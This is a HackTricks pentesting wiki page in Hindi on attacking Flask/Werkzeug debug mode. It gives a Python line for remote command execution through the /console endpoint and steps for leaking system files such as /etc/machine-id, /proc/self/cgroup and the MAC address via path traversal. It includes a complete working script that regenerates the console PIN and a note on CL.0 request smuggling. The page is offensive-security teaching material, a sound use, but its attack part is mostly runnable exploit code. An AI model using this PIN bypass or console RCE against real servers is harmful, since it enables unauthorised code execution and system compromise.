 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**कमजोरी मूल्यांकन और पेनटेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। कहीं से भी 20+ उपकरणों और सुविधाओं के साथ एक पूर्ण पेंटेस्ट चलाएँ जो पुनः खोज से रिपोर्टिंग तक जाते हैं। हम पेंटेस्टर्स का स्थान नहीं लेते - हम कस्टम उपकरण, पहचान और शोषण मॉड्यूल विकसित करते हैं ताकि उन्हें गहराई से खुदाई करने, शेल पॉप करने और मज़े करने के लिए कुछ समय वापस मिल सके।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

यदि डिबग सक्रिय है तो आप `/console` तक पहुँचने और RCE प्राप्त करने का प्रयास कर सकते हैं।
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

इंटरनेट पर कई एक्सप्लॉइट्स भी हैं जैसे [यह ](https://github.com/its-arun/Werkzeug-Debug-RCE)या मेटास्प्लॉट में एक।

## पिन सुरक्षित - पथ यात्रा

कुछ अवसरों पर **`/console`** एंडपॉइंट एक पिन द्वारा सुरक्षित होगा। यदि आपके पास **फाइल ट्रैवर्सल वल्नरेबिलिटी** है, तो आप उस पिन को उत्पन्न करने के लिए सभी आवश्यक जानकारी लीक कर सकते हैं।

### Werkzeug कंसोल पिन एक्सप्लॉइट

ऐप में एक डिबग त्रुटि पृष्ठ को मजबूर करें ताकि इसे देखा जा सके:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
एक संदेश "कंसोल लॉक" परिदृश्य के बारे में तब मिलता है जब Werkzeug के डिबग इंटरफेस तक पहुँचने का प्रयास किया जाता है, जो कंसोल को अनलॉक करने के लिए एक PIN की आवश्यकता को इंगित करता है। सुझाव दिया गया है कि कंसोल PIN का शोषण Werkzeug के डिबग प्रारंभिक फ़ाइल (`__init__.py`) में PIN जनरेशन एल्गोरिदम का विश्लेषण करके किया जाए। PIN जनरेशन तंत्र का अध्ययन [**Werkzeug स्रोत कोड भंडार**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) से किया जा सकता है, हालांकि संभावित संस्करण भिन्नताओं के कारण वास्तविक सर्वर कोड को फ़ाइल ट्रैवर्सल भेद्यता के माध्यम से प्राप्त करने की सलाह दी जाती है।

कंसोल PIN का शोषण करने के लिए, दो सेट के वेरिएबल्स, `probably_public_bits` और `private_bits`, की आवश्यकता होती है:

#### **`probably_public_bits`**

* **`username`**: उस उपयोगकर्ता को संदर्भित करता है जिसने Flask सत्र शुरू किया।
* **`modname`**: आमतौर पर `flask.app` के रूप में नामित होता है।
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: सामान्यतः **Flask** में हल होता है।
* **`getattr(mod, '__file__', None)`**: Flask निर्देशिका के भीतर `app.py` के लिए पूर्ण पथ का प्रतिनिधित्व करता है (जैसे, `/usr/local/lib/python3.5/dist-packages/flask/app.py`)। यदि `app.py` लागू नहीं है, तो **`app.pyc`** का प्रयास करें।

#### **`private_bits`**

* **`uuid.getnode()`**: वर्तमान मशीन का MAC पता प्राप्त करता है, जिसमें `str(uuid.getnode())` इसे दशमलव प्रारूप में अनुवादित करता है।
* **सर्वर के MAC पते का निर्धारण करने के लिए**, एक को ऐप द्वारा उपयोग किए जा रहे सक्रिय नेटवर्क इंटरफेस की पहचान करनी होगी (जैसे, `ens3`)। यदि अनिश्चितता हो, तो **`/proc/net/arp`** लीक करें ताकि डिवाइस ID मिल सके, फिर **`/sys/class/net/<device id>/address`** से **MAC पता निकालें**।
*   एक हेक्साडेसिमल MAC पते को दशमलव में परिवर्तित करने के लिए नीचे दिखाए अनुसार किया जा सकता है:

```python
# उदाहरण MAC पता: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: `/etc/machine-id` या `/proc/sys/kernel/random/boot_id` से डेटा को `/proc/self/cgroup` की पहली पंक्ति के साथ अंतिम स्लैश (`/`) के बाद जोड़ता है।

<details>

<summary>Code for `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

सभी आवश्यक डेटा को एकत्र करने के बाद, एक्सप्लॉइट स्क्रिप्ट को Werkzeug कंसोल PIN उत्पन्न करने के लिए निष्पादित किया जा सकता है:

सभी आवश्यक डेटा को एकत्र करने के बाद, एक्सप्लॉइट स्क्रिप्ट को Werkzeug कंसोल PIN उत्पन्न करने के लिए निष्पादित किया जा सकता है। स्क्रिप्ट एकत्रित `probably_public_bits` और `private_bits` का उपयोग करके एक हैश बनाती है, जो फिर अंतिम PIN उत्पन्न करने के लिए आगे की प्रक्रिया से गुजरती है। नीचे इस प्रक्रिया को निष्पादित करने के लिए Python कोड है:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
यह स्क्रिप्ट जुड़े हुए बिट्स को हैश करके, विशिष्ट साल्ट (`cookiesalt` और `pinsalt`) जोड़कर, और आउटपुट को फॉर्मेट करके PIN उत्पन्न करती है। यह ध्यान रखना महत्वपूर्ण है कि `probably_public_bits` और `private_bits` के वास्तविक मानों को लक्ष्य प्रणाली से सटीक रूप से प्राप्त करना आवश्यक है ताकि उत्पन्न PIN Werkzeug कंसोल द्वारा अपेक्षित PIN से मेल खाता हो।

{% hint style="success" %}
यदि आप Werkzeug के **पुराने संस्करण** पर हैं, तो **hashing algorithm को md5** में बदलने का प्रयास करें, sha1 के बजाय।
{% endhint %}

## Werkzeug Unicode chars

जैसा कि [**इस मुद्दे**](https://github.com/pallets/werkzeug/issues/2833) में देखा गया है, Werkzeug हेडर में Unicode वर्णों के साथ एक अनुरोध को बंद नहीं करता है। और जैसा कि [**इस लेख**](https://mizu.re/post/twisty-python) में समझाया गया है, इससे CL.0 Request Smuggling भेद्यता हो सकती है।

यह इसलिए है, क्योंकि Werkzeug में कुछ **Unicode** वर्ण भेजना संभव है और यह सर्वर को **टूटने** का कारण बनेगा। हालाँकि, यदि HTTP कनेक्शन **`Connection: keep-alive`** हेडर के साथ बनाया गया था, तो अनुरोध का शरीर नहीं पढ़ा जाएगा और कनेक्शन अभी भी खुला रहेगा, इसलिए अनुरोध का **शरीर** **अगले HTTP अनुरोध** के रूप में माना जाएगा।

## Automated Exploitation

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## References

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**कमजोरी मूल्यांकन और पेनिट्रेशन परीक्षण के लिए तुरंत उपलब्ध सेटअप**। 20+ उपकरणों और सुविधाओं के साथ कहीं से भी एक पूर्ण पेंटेस्ट चलाएँ जो पुनः खोज से रिपोर्टिंग तक जाते हैं। हम पेंटेस्टर्स का स्थान नहीं लेते - हम उन्हें गहराई से खुदाई करने, शेल पॉप करने और मज़े करने के लिए कुछ समय वापस देने के लिए कस्टम उपकरण, पहचान और शोषण मॉड्यूल विकसित करते हैं।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके हैकिंग ट्रिक्स साझा करें।

</details>
{% endhint %}
